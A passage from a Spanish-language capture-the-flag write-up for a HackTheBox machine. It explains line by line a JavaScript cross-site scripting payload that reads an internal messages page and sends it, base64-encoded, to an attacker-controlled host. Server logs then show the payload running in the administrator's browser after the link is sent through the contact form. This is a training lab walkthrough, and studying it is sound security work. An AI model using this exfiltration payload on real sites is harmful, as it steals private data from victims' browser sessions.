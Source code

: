 ```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/index.php?page=messages', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);
exfil.send();
```

**Qué hace el fragmento de JavaScript:** se obtiene el HTML de `http://alert.htb/index.php?page=messages` y se envía (codificado en base64) a un servidor externo (`10.10.16.12`). Es un patrón típico de _exfiltración de información_ aprovechando peticiones desde el navegador.

- `var req = new XMLHttpRequest();`  
    Creamos un objeto XHR para hacer una petición HTTP sin interfaz gráfica.
    
- `req.open('GET', 'http://alert.htb/index.php?page=messages', false);`  
    Abrimos una petición síncrona `GET` hacia la URL interna que contiene los mensajes (nota: las peticiones síncronas bloquean el hilo de la UI).
    
- `req.send();`  
    Enviamos la petición y, al ser síncrona, `req.responseText` contendrá la respuesta (el HTML/texto de la página).
    
- `var exfil = new XMLHttpRequest();`  
    Creamos otro objeto XHR para la exfiltración.
    
- `exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);`  
    Abrimos una petición `GET` (síncrona) hacia un servidor controlado por el atacante, adjuntando en la query el contenido obtenido, codificado en Base64 con `btoa()`.
    
- `exfil.send();`  
    Enviamos la petición que transmite los datos al servidor remoto.
    

Si recargamos el endpoint donde se almacenaba nuestro archivo `.md` (la URL que se proporciona al subir un archivo), vemos que en nuestro servidor obtenemos la respuesta en base64 tal y como pedimos. Aquí tan solo obtenemos, a modo de traza, el código fuente en HTML que desde nuestra sesión sin privilegios ya vemos con `Ctrl+U`. Pero confirmando que esto funciona, ahora podemos enviarle por la pestaña `Contact Us` al administrador el enlace donde se almacena el archivo `.md` que apunta a nuestro servidor con el recurso `.js` malicioso.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.12 - - [27/Oct/2025 12:38:14] "GET /pwned.js HTTP/1.1" 200 -
10.10.16.12 - - [27/Oct/2025 12:38:14] "GET /pwned.js HTTP/1.1" 200 -
10.10.16.12 - - [27/Oct/2025 12:38:14] "GET /?bs64=PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGV<...>1sPgoK HTTP/1.1" 200 -
```

**Respuesta del administrador:**

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [27/Oct/2025 12:43:31] "GET /pwned.js HTTP/1.1" 200 -
10.10.11.44 - - [27/Oct/2025 12:43:32] "GET /?bs64=PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGV<...>4KCg== HTTP/1.1" 200 -
```
